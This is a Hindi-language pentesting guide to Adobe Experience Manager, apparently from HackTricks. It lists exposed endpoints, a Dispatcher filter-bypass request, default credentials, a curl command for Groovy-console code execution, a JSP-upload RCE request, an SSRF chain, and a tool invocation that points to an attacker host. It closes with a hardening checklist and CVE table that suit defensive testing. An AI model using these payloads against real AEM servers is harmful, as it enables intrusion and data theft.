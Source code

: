 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, Adobe Experience Cloud का हिस्सा) एक एंटरप्राइज CMS है जो Apache Sling/Felix (OSGi) और एक Java Content Repository (JCR) के ऊपर चलता है।
> हमलावर के दृष्टिकोण से AEM उदाहरण अक्सर खतरनाक विकास एंडपॉइंट्स, कमजोर Dispatcher नियम, डिफ़ॉल्ट क्रेडेंशियल और CVEs की एक लंबी श्रृंखला को उजागर करते हैं जो हर तिमाही पैच किए जाते हैं।

नीचे दी गई चेकलिस्ट **बाहरी रूप से पहुंच योग्य (unauth) हमले की सतह** पर केंद्रित है जो वास्तविक अभियानों (2022-2025) में बार-बार दिखाई देती है।

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
अन्य त्वरित संकेत:
* `/etc.clientlibs/` स्थिर पथ मौजूद है (JS/CSS लौटाता है)।
* `/libs/granite/core/content/login.html` लॉगिन पृष्ठ जिसमें “Adobe Experience Manager” बैनर है।
* `</script><!--/* CQ */-->` टिप्पणी HTML के नीचे।

---

## 2. उच्च-मूल्य वाले अनधिकृत एंडपॉइंट

पथ | आपको क्या मिलता है | नोट्स
---- | ------------- | -----
`/.json`, `/.1.json` | JCR नोड्स via **DefaultGetServlet** | अक्सर अवरुद्ध, लेकिन *Dispatcher bypass* (नीचे देखें) काम करता है।
`/bin/querybuilder.json?path=/` | QueryBuilder API | पृष्ठ वृक्ष, आंतरिक पथ, उपयोगकर्ता नाम का लीक।
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix कंसोल | डिफ़ॉल्ट रूप से 403; यदि उजागर और क्रेडेंशियल्स पाए गए ⇒ बंडल-अपलोड RCE।
`/crx/packmgr/index.jsp` | पैकेज प्रबंधक | प्रमाणीकृत सामग्री पैकेजों की अनुमति देता है → JSP पेलोड अपलोड।
`/etc/groovyconsole/**` | AEM Groovy कंसोल | यदि उजागर → मनमाना Groovy / Java निष्पादन।
`/libs/cq/AuditlogSearchServlet.json` | ऑडिट लॉग | जानकारी का खुलासा।
`/libs/cq/ui/content/dumplibs.html` | ClientLibs डंप | XSS वेक्टर।

### Dispatcher बायपास ट्रिक
अधिकांश उत्पादन साइटें *Dispatcher* (रिवर्स-प्रॉक्सी) के पीछे होती हैं। इसके फ़िल्टर नियमों को एक अनुमत स्थिर एक्सटेंशन **सेमीकोलन या एन्कोडेड न्यूलाइन के बाद** जोड़कर बायपास किया जा सकता है:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
एकल अनुरोध जैसे ऊपर अक्सर उपयोगकर्ता प्रोफ़ाइल नोड्स को ईमेल पतों के साथ प्रकट करता है। P-T Partners ने इस कमजोरी पर अच्छी मार्गदर्शिका प्रकाशित की है। 【】

---

## 3. सामान्य गलत कॉन्फ़िगरेशन (2025 में अभी भी जीवित)

1. **गुमनाम POST सर्वलेट** – `POST /.json` के साथ `:operation=import` आपको नए JCR नोड्स लगाने की अनुमति देता है। डिस्पैचर में `*.json` POST को ब्लॉक करना इसे ठीक करता है। 【】
2. **विश्व-प्रवेश योग्य उपयोगकर्ता प्रोफ़ाइल** – डिफ़ॉल्ट ACL `/home/users/**/profile/*` पर सभी को `jcr:read` प्रदान करता है।
3. **डिफ़ॉल्ट क्रेडेंशियल्स** – `admin:admin`, `author:author`, `replication:replication`।
4. **WCMDebugFilter** सक्षम ⇒ `?debug=layout` के माध्यम से परावर्तित XSS (CVE-2016-7882, अभी भी विरासती 6.4 इंस्टॉलेशन पर पाया गया)।
5. **Groovy कंसोल उजागर** – एक Groovy स्क्रिप्ट भेजकर दूरस्थ कोड निष्पादन:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. हाल की कमजोरियाँ (सेवा-पैक की आवृत्ति)

तिमाही | CVE | प्रभावित | प्रभाव
------- | --- | -------- | ------
दिसंबर 2024 | **CVE-2024-43711** | 6.5.21 और पहले | अनुचित इनपुट मान्यता → **मनमाना कोड निष्पादन** (कम-priv auth की आवश्यकता)। 【】
दिसंबर 2024 | CVE-2024-43724/26 | 6.5.21 और पहले | Move Page Wizard में DOM / स्टोर की गई XSS। 【】
दिसंबर 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | तैयार URL के माध्यम से DOM-आधारित XSS। 【】
दिसंबर 2022 | CVE-2022-30683 | ≤ 6.5.13 | क्रिप्टो डिज़ाइन दोष → गुप्त डिक्रिप्शन (कम-priv क्रेडेंशियल्स की आवश्यकता)। 【】

हमेशा ग्राहक की सेवा-पैक से मेल खाने वाले *APSB* बुलेटिन की जांच करें और नवीनतम **6.5.22** या *Cloud Service 2024.11* का अनुरोध करें।

---

## 5. शोषण स्निप्पेट्स

### 5.1 डिस्पैचर बायपास + JSP अपलोड के माध्यम से RCE
यदि गुमनाम लेखन संभव है:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
अब `/content/evil.jsp` का अनुरोध करें - JSP AEM प्रक्रिया उपयोगकर्ता के साथ चलती है।

### 5.2 SSRF से RCE (ऐतिहासिक < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` **aem-hacker** से पूरी श्रृंखला को स्वचालित करता है। 【】

---

## 6. उपकरण

* **aem-hacker** – स्विस-आर्मी एन्यूमरेशन स्क्रिप्ट, डिस्पैचर बायपास, SSRF पहचान, डिफ़ॉल्ट-क्रेड्स जांच और अधिक का समर्थन करता है।
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – छिपे हुए घटकों को खोजने के लिए `/_jcr_content.(json|html)` को पुनरावृत्त रूप से अनुरोध करें।
* **osgi-infect** – यदि क्रेड्स उपलब्ध हैं तो `/system/console/bundles` के माध्यम से दुर्भावनापूर्ण OSGi बंडल अपलोड करें।

---

## 7. हार्डनिंग चेकलिस्ट (आपकी रिपोर्ट की सिफारिशों के लिए)

1. **नवीनतम संचयी सेवा पैक** पर इंस्टेंस रखें (जुलाई 2025 के अनुसार: 6.5.22)।
2. डिफ़ॉल्ट खातों को हटा दें/घुमाएं; SSO/SAML को लागू करें।
3. **Dispatcher फ़िल्टर** को कड़ा करें - अनाम उपयोगकर्ताओं के लिए `;`, एन्कोडेड नई पंक्तियाँ, और `*.json` या `*.querybuilder.json` को अस्वीकार करें।
4. कंसोल्स (`/system/console`, `/crx/*`, `/etc/groovyconsole`) को IP अनुमति-सूचियों के साथ अक्षम या सुरक्षित करें।
5. Adobe द्वारा भेजे गए *Anonymous Permission Hardening* पैकेज को लागू करें।

## संदर्भ

* Adobe सुरक्षा बुलेटिन APSB24-69 – “Adobe Experience Manager के लिए सुरक्षा अपडेट (दिसंबर 2024)”.
* 0ang3el – aem-hacker उपकरण (GitHub).
{{#include ../../banners/hacktricks-training.md}}
